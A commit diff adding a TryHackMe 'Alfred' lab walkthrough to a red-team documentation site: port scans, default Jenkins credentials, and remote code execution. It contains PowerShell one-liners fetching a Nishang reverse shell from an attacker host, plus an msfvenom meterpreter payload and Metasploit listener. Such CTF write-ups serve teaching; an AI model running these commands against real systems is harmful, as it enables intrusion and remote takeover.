

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/alfred.md, in a window 1280 px wide and 1400 px high, scrolled down 270 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Initial commit

````diff
--- a/source/docs/thm/alfred.md
+++ b/source/docs/thm/alfred.md
@@ -6,6 +6,102 @@
 
 ## Inititial access
 
+### Scanning
+
+First run a simple port scan (without Ping)
+
+	nmap -Pn -p- <IP address target machine> -oN portscan
+
+Three open ports: Two http (websites?) on port 80 and 8080, and a Remote Desktop service on port 3389.
+
+Run an all scan on the three open ports:
+
+	nmap -Pn -T4 -A -p80,3389,8080 <IP address target machine> -oN servicescan
+
+A version for Microsoft IIS, a possible `robots.txt` on port 8080 and something called Jetty.
+
+### Exploring
+
+Browse to the `IP address target machine>:80` and `IP address target machine:8080` website. The first, on port 80,
+shows a silly image and message with nothing else to click or navigate to. The second shows a Jenkins login page.
+
+Maybe default credentials are used for Jenkin and then were not changed? Researching that, the default username is
+`admin` but the password gets automatically filled, dependent on system. And then maybe changed to something more
+easily memorised?
+
+Doing some password guessing manually, I found `admin:admin`. If that had not worked I could have tried intercepting
+a login request with Burpsuite and using Intruder to use a password list against the password field. But, as it is,
+I'm already in.
+
+### Remote code execution
+
+The Jenkins documentation gives me two possible ways of Remote Code Execution:
+
+1. Click "Project" to get into the prebuilt project, then click  "Configure" on the left. Scrolling down, there is a window that allows for executing Windows batch commands.
+2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language for the Java platform. On the mainpage, go to Project Management, scroll down below the warnings, and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.
+
+A PowerShell command to execute a reverse shell might work. "Nishang" contains a lot of reverse shell payloads and more.
+
+If on Kali, copy `Invoke-PowershellTcp.ps1` from `/usr/share/nishang/Shells`. If not on Kali,
+[download Invoke-PowershellTcp.ps1 from Gihub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1).
+
+I decided not to copy and just host the entire Nishang Shells directory, by starting a server in
+`/usr/share/nishang/Shells`:
+
+	python3 -m http.server 80
+
+Option 1: Execute windows batch command window
+
+Test with:
+
+	whoami
+
+```text
+powershell iex (New-Object Net.WebClient).DownloadString(‘http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>
+```
+
+Option 2: Script console
+
+Testing remote command execution through the execute function, using "print" to display the output of the command:
+
+	print "whoami".execute().text
+
+In the script console:
+
+```text
+print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:<http-server port>/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>".execute().text
+```
+Get the flag:
+
+	PS  C:\Users\bruce\Desktop> cat users.txt
+
 ## Switching shells
 
+Generate payload:
+
+	msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=<Listen port on attack machine> -f exe -o shell.exe
+
+
+Set up a Python web server to host the reverse shell:
+
+	# python3 -m http.server 8080
+
+Download the shell.exe into the Target machine using Jenkins:
+
+	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8888/shell.exe','shell.exe')"
+
+
+In a new terminal, start Metasploit, select the multi handler module, set the payload type, LHOST and LPORT options to match the payload shell, and run the listener:
+
+	# msfconsole -q
+	msf6 > use exploit/multi/handler
+	msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
+	msf6 exploit(multi/handler) > set LHOST <IP address attack machine>
+	msf6 exploit(multi/handler) > set LPORT <Listen port on attack machine>
+	msf6 exploit(multi/handler) > run
+
+In the powershell terminal, executing the reverse shell using the Powershell `Start-Process` cmdlet:
+
+	PS  C:\Users\bruce\Desktop> Start-Process "shell.exe"
+
 ## Privilege escalation
````
